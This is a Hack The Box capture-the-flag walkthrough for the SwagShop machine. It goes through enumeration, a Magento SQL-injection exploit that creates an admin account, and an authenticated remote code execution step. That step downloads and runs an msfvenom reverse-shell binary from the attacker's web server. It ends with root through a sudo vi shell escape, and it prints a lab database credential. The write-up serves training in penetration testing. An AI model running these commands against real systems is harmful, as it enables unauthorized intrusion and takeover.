




# HTB SwagShop
## OS: Linux
## Difficulty: Easy

### Enumeration:
I'll start with a port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.229.138
```

```bash

```

Taking a look at port 80 we get a redirect to 'swagshop.htb'.htb so I'll add the domain to the hosts file.

We get to this page:



Whatweb reveals it uses magento. I'll run gobuster to find more pages.

```bash
whatweb http://swagshop.htb
http://swagshop.htb

 [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.129.229.138], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

```bash
gobuster dir -u http://swagshop.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,js
```
Results:
```
/index.php            (Status: 200) [Size: 16097]
/media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
/includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
/install.php          (Status: 200) [Size: 44]
/app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
/js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
/api.php              (Status: 200) [Size: 37]
/shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
/cron.php             (Status: 200) [Size: 0]
/LICENSE.txt          (Status: 200) [Size: 10410]
/var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
/errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
```

Looking through the directories I found the Magento version used in http://swagshop.htb/var/package/Mage_Locale_zh_CN-1.9.0.0.xml. It's 1.9.0.0. 
I also found a file that has an username and a password for the data base. ( http://swagshop.htb/app/etc/local.xml ) 

```
root:fMVWh7bDHpgZkyfqQXreTjU9
```

https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/README.md

### Foothold:

I found an exploit for this version.

https://blog.checkpoint.com/security/analyzing-magento-vulnerability/

https://www.exploit-db.com/exploits/37977

After removing the comments and changing the target's url to "http://swagshop.htb/index.php" I run the exploit.

```bash
python2 exploit.py

#Result:
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

Now let's login with these credentials and check the admin panel.



I also found an authenticated RCE exploit. https://github.com/Hackhoven/Magento-RCE

```bash
python3 rce.py http://swagshop.htb/index.php/admin "whoami"

www-data
```

Now let's get a shell. First I'll generate a payload with msfvenom and start a web server and start the multi/handler.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.53 LPORT=6666 -f elf >reverse.elf

python3 -m http.server -b 10.10.14.53

sudo msfconsole
use multi/handler
set LHOST 10.10.14.53
set LPORT 6666
```

Now we get the file on the target system and execute it.

```bash
python3 rce.py http://swagshop.htb/index.php/admin "wget http://10.10.14.53:8000/reverse.elf"

python3 rce.py http://swagshop.htb/index.php/admin "chmod +x reverse.elf"

python3 rce.py http://swagshop.htb/index.php/admin "./reverse.elf"
```



It worked! I'll upgrade the shell.

```bash
[Ctrl+Z]
sessions -u 1

sessions -i 2
```

### Privilege Escalation:

Using "sudo -l" we find out we can run a script as the root user.

```bash
/usr/bin/vi /var/www/html/*
```

We can use vim to spawn a shell using ":!/bin/bash -i".

```bash
E

:!/bin/bash -i
```



And it works. Now we can get the 2 flags.

```bash
cat /home/*/user.txt

cat /root/root.txt
```

### We got the flags!